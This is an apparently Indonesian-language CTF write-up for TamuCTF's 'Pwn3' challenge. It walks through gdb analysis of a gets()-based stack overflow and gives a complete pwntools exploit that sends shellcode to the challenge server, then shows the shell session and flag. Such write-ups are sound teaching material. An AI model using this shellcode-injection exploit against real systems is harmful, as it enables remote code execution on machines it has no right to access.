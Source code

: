 # __TamuCTF__
## _Pwn3_

## Information
**Category:** | **Points**
pwn | 387

**Description**

> nc pwn.tamuctf.com 4323
> Difficulty: easy
> [pwn3](./pwn3)

### Pwn3
#### File
```
pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : FULL
```

#### Run
```
[l0l@l0l Pwn3]$ ./pwn3
Take this, you might need it on your journey 0xffb9cfee!
afdasd
```

#### Solve
Langsung coba buka di gdb. Ada beberapa fungsi yang kelihatannya menarik.
```
0x0000059d  echo
0x000005e3  main
```

Di fungsi `main` tidak banyak yang dilakukan, hanya memanggil fungsi `echo` saja. Coba disassemble fungsi `echo`

```
gdb-peda$ pdisass echo
Dump of assembler code for function echo:
   0x0000059d <+0>:     push   ebp
   0x0000059e <+1>:     mov    ebp,esp
   0x000005a0 <+3>:     push   ebx
   0x000005a1 <+4>:     sub    esp,0x134
   0x000005a7 <+10>:    call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:    add    ebx,0x1a20
   0x000005b2 <+21>:    sub    esp,0x8
   0x000005b5 <+24>:    lea    eax,[ebp-0x12a]
   0x000005bb <+30>:    push   eax
   0x000005bc <+31>:    lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:    push   eax
   0x000005c3 <+38>:    call   0x410 <printf@plt>
   0x000005c8 <+43>:    add    esp,0x10
   0x000005cb <+46>:    sub    esp,0xc
   0x000005ce <+49>:    lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:    push   eax
   0x000005d5 <+56>:    call   0x420 <gets@plt>
   0x000005da <+61>:    add    esp,0x10
   0x000005dd <+64>:    nop
   0x000005de <+65>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:    leave
   0x000005e2 <+69>:    ret
End of assembler dump.
```

Buffer Overflow lagi. Kali ini tidak ada proteksi NX maka kita dapat mengeksekusi program di stack.

Lalu pada fungsi echo, program memanggil fungsi `printf` dengan salah satu argumen alamat stack. Hal ini dapat berguna untuk menentukan return address karena program diproteksi PIE.

```
[-------------------------------------code-------------------------------------]
   0x565555bb <echo+30>:        push   eax
   0x565555bc <echo+31>:        lea    eax,[ebx-0x191c]
   0x565555c2 <echo+37>:        push   eax
=> 0x565555c3 <echo+38>:        call   0x56555410 <printf@plt>
   0x565555c8 <echo+43>:        add    esp,0x10
   0x565555cb <echo+46>:        sub    esp,0xc
   0x565555ce <echo+49>:        lea    eax,[ebp-0x12a]
   0x565555d4 <echo+55>:        push   eax
Guessed arguments:
arg[0]: 0x565556b0 ("Take this, you might need it on your journey %p!\n")
arg[1]: 0xffffd4be --> 0x0
[------------------------------------stack-------------------------------------]
0000| 0xffffd4a0 --> 0x565556b0 ("Take this, you might need it on your journey
%p!\n")
0004| 0xffffd4a4 --> 0xffffd4be --> 0x0
0008| 0xffffd4a8 --> 0x0
0012| 0xffffd4ac --> 0x565555ac (<echo+15>:     add    ebx,0x1a20)
0016| 0xffffd4b0 --> 0x0
0020| 0xffffd4b4 --> 0x0
0024| 0xffffd4b8 --> 0x0
0028| 0xffffd4bc --> 0x0
[------------------------------------------------------------------------------]
```

Dan ternyata address yang diberikan adalah address dari input kita.
```
0000| 0xffffd4a0 --> 0xffffd4be ("AAAA")
0004| 0xffffd4a4 --> 0xffffd4be ("AAAA")
```

Jadi kita dapat overflow stack untuk mengoverwrite return address. Lalu mengeksekusi shellcode di stack.

Selanjutnya kita perlu mengetahui berapa padding sebelum return address.

```
   0x565555ce <+49>:    lea    eax,[ebp-0x12a]
   0x565555d4 <+55>:    push   eax
   0x565555d5 <+56>:    call   0x56555420 <gets@plt>
```

Input kita disimpan pada `$ebp-0x12a`, maka susunan payload kita :
`shellcode + padding * (0x12a-len(shell)) + new_ebp + return_address`

#### Payload
```py
from pwn import *
context.arch = 'i386'
r = remote('pwn.tamuctf.com', 4323)

r.recvuntil('0x')
return_address = r.recvuntil('!')[:-1]

payload = asm(shellcraft.sh())
payload += '\x90'*(0x12a-len(payload))
payload += 'XXXX'			# new ebp
payload += p32(int(return_address,16))

r.sendline(payload)
r.interactive()
```

#### Result
```
[l0l@l0l Pwn3]$ ./solve.py
[+] Opening connection to pwn.tamuctf.com on port 4323: Done
[*] Switching to interactive mode

$ ls
flag.txt
pwn3
$ cat flag.txt
gigem{r3m073_fl46_3x3cu710n}
```

#### Flag
gigem{r3m073_fl46_3x3cu710n}
